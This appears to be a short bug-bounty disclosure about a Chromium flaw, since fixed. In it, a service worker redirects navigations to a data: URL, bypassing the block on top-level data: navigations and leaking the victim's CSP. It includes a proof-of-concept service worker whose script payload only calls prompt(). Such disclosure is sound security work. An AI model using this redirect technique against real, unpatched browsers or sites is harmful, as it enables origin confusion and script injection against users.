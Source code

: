 ```yaml
---
title: Service workers allowing redirects to data: URLs (Awarded $4000)
---
```


Top-level navigations to `data:` are not normally allowed. <https://blog.mozilla.org/security/2017/11/27/blocking-top-level-navigations-data-urls-firefox-59/> This navigation inherits from the opener as shown for the origin in the protocol confirmation dialog and also leaks the victims CSP.

```js
self.addEventListener('fetch', function (event) {
  event.respondWith(
    Response.redirect('data:text/html,<script>prompt("Test")</script>')
  );
});
```

This issue was fixed in <https://issues.chromium.org/379337758>
